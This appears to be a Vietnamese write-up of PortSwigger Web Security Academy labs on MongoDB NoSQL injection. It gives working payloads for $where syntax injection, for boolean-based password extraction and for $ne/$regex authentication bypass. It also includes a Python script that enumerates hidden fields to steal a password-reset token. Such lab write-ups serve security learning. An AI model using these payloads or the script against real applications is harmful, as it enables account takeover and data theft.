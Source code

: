 # No SQL Injection

## NoSQL syntax injection

### Detecting syntax injection in MongoDB
#### Lab: Detecting NoSQL injection
**Yêu cầu**
The product category filter for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.
To solve the lab, perform a NoSQL injection attack that causes the application to display unreleased products.

**Thực hiện**
- Theo như mô tả thì chức năng `category filter` sử dụng MongoDB. Quan sát gói tin request và response qua Burp.
![alt text](img/image.png)

- Kiểm tra xem `category` có lỗ hổng injection hay không ? Payload: `Gift'`
![alt text](img/image-1.png)

- Thực hiện chèn thêm để có thể leak được thông tin các đơn hàng không được leak. Có thể câu truy vấn sẽ như này: 
```javascript
const category = req.query.category;
db.collection('products').find({ $where: "this.category == '" + category + "'" });
```
- Payload chèn: `category=Gifts'||'1'=='1`
![alt text](img/image-2.png)

**Note**    
NoSQL Injection khai thác lỗ hổng khi server không kiểm tra hoặc làm sạch dữ liệu đầu vào, đặc biệt trong MongoDB với `$where`, cho phép thực thi mã JavaScript. Kẻ tấn công có thể chèn dấu nháy đơn (`'`) hoặc toán tử `||` (OR) để thay đổi cú pháp và bỏ qua logic truy vấn, từ đó truy xuất toàn bộ dữ liệu.

NoSQL Injection khai thác lỗ hổng khi server không lọc đầu vào, đặc biệt với MongoDB `$where`.
Dấu nháy đơn (') phá cú pháp JavaScript trong `$where`, giúp phát hiện lỗ hổng.
Toán tử `||` kết hợp với điều kiện luôn đúng `('1'=='1')` bỏ qua logic truy vấn gốc.
`$where` nguy hiểm vì cho phép chạy JavaScript, dễ bị tấn công nếu không kiểm soát đầu vào.

### Exploiting syntax injection to extract data
#### LAB: Exploiting NoSQL injection to extract data
**Yêu cầu**
The user lookup functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.
To solve the lab, extract the `password` for the `administrator` user, then log in to their account.
You can log in to your own account using the following credentials: `wiener:peter`.

**Thực hiện**
- Chức năng lookup sử dụng MongoDB -> quan sát gói tin request và response
![alt text](img/image-10.png)

- Thay username thành `administrator` 
![alt text](img/image-11.png)

- Thử trích xuất thông tin bằng kĩ thuật boolean. Payload `user=administrator'%26%26this.password[0]=='e`. Ở đây payload kiểm tra xem kí tự đầu là `e`. Nếu đúng thì hiện thị nội dung, nếu sai thì sẽ thông báo không tìm thấy user.
![alt text](img/image-12.png)
![alt text](img/image-13.png)

- Payload `administrator'%26%26this.password.length=='8` giúp ta xác định được đồ dài mật khẩu là 8. Giờ thì trích xuất mật khẩu thôi.
![alt text](img/image-14.png)

- Password: `exglgkzx`. Đăng nhập vào tài khoản administrator và hoàn thành lab.
![alt text](img/image-15.png)

**Note**
Các kĩ thuật sử dụng trong bài này có hơi hướng giống với SQL injection. Ở đây ta tận dụng các hàm `length` hay `this.password[0]` để trích xuất thông tin của password thông qua các phản hồi đúng sai.

## NoSQL operator injection
### Detecting operator injection in MongoDB
#### Lab: Exploiting NoSQL operator injection to bypass authentication
**Yêu cầu**
The login functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection using MongoDB operators.
To solve the lab, log into the application as the `administrator` user.
You can log in to your own account using the following credentials: `wiener:peter`.

**Thực hiện**
- Gợi ý thì mongoDB được sử dụng ở chức năng login -> Quan sát gói tin request và response.
![alt text](img/image-3.png)

- Gói tin POST đang dùng json để gửi theo thông tin đăng nhâp, ta thử thay đổi xem có thông báo gì không ? payload `{"username":{"$ne":"invalid"},"password":"peter"}`
![alt text](img/image-4.png)
![alt text](img/image-5.png)

- Đăng nhập được vào tài khoản `wiener`  -> Sửa lại payload để đăng nhập được tài khoản `administrator`. Payload:`{"username":"administrator","password":{"$ne":"blbabal"}}`
![alt text](img/image-6.png)

- Không đăng nhập được nhưng nếu đổi sang `wiener` thì lại được -> rất có thể tài khoản admin không phải là `administrator`
![alt text](img/image-7.png)

- Theo gợi ý thì tài khoản admin sẽ có chứa chuỗi `admin` -> sửa payload thành
- `{"username":{"$regex": ".*admin.*"},"password":{"$ne":"blbabal"}}`
![alt text](img/image-8.png)

- Hoàn thành bài lab.
![alt text](img/image-9.png)

**Note**
Trong bài lab này chúng ta có thể sử dụng json để và chèn vào đó các toán tử của MongoDB để bypass cơ chế xác thực.
- **$where** - So khớp các tài liệu (documents) thỏa mãn một biểu thức JavaScript.
- **$ne** - So khớp tất cả các giá trị không bằng một giá trị chỉ định.
- **$in** - So khớp tất cả các giá trị được chỉ định trong một mảng.
- **$regex** - Chọn các tài liệu có giá trị khớp với một biểu thức chính quy (regular expression) được chỉ định.

Bài này chúng ta biết tài khoản admin không như thông thường trong các bài lab khác là `administrator` nên cần có cơ chế linh hoạt hơn trong việc sử dụng payload để khai thác.

### Exploiting NoSQL operator injection to extract data
#### Lab: Exploiting NoSQL operator injection to extract unknown fields
**Yêu cầu**
The user lookup functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.
To solve the lab, log in as `carlos`.
>Tips
To solve the lab, you'll first need to exfiltrate the value of the password reset token for the user `carlos`.

**Thực hiện**
- Ở bài lab này việc phát hiện ra lỗ hổng khó hơn. Trước tiên thử nghiệm với tính năng đăng nhập.
![alt text](img/image-16.png)
![alt text](img/image-17.png)

- Điều này cho thấy form login sử dụng json để gửi dữ liệu đi. Hãy thử nghiệm ở form login xem trích xuất được thông tin gì không ? payload `{"username":"wiener","password":{"$ne":"invalid"}}`
![alt text](img/image-18.png)

- Thử đăng nhập bằng `carlos`. Account bị lock phải reset password.
![alt text](img/image-19.png)

- Trích xuất thôgn tin password của `wiener`. Dựa vào đây chúng ta hoàn toàn có thể xác nhận rằng chúng ta có thể trích xuất thông tin khác của object.
![alt text](img/image-20.png)

- Dựa vào phản hồi này ta biết trong object này có 5 trường.
![alt text](img/image-21.png)

- Dựa vào kinh nghiệm và kiểm chứng ta biết 3 trường đầu tiên lần lượt là `_id`, `username`, `password`. Viết script để tìm kiếm tên 2 trường còn lại. -> `email` và `resetPwdToken`.
```python
import requests
from string import ascii_letters

class Exploit:
    def __init__(self, base_url):
        self.base_url = base_url
        self.login_url = f"{base_url}/login"

    def extract_field_names(self, position):
        username = "carlos"
        password = {"$ne": "foobar"}
        field_name = ""

        for char in ascii_letters:
            # Tạo payload regex: ^char.* (nếu field_name rỗng) hoặc ^field_name+char.*
            payload = f"^{field_name}{char}.*" if field_name else f"^{char}.*"
            where_condition = f"Object.keys(this)[{position}].match('{payload}')"
            print(f"\r[*] Trying: {where_condition}", end="")

            # Gửi request
            login_data = {"username": username, "password": password, "$where": where_condition}
            response = requests.post(self.login_url, json=login_data)

            # Kiểm tra phản hồi: Thành công nếu không có "Invalid username"
            if "Invalid username" not in response.text:
                field_name += char
                print(f"\n[+] Found char '{char}' at position {position} (Field: {field_name})")
                break
        else:  # Nếu không tìm thấy ký tự nào
            if not field_name:
                print(f"\n[-] No field at position {position}")
            else:
                print(f"\n[*] Final field name at position {position}: {field_name}")

if __name__ == "__main__":
    base_url = "https://0a8f003304266ee980d476d400c8007f.web-security-academy.net/"
    exploit = Exploit(base_url)

    for i in range(4):
        exploit.extract_field_names(i)
```

- `resetPwdToken`:`6e71090f07223f77`. Truy cập theo đường dẫn này 
![alt text](img/image-22.png)

- Đổi mật khẩu và đăng nhập lại để hoàn thành bài lab.

**Note**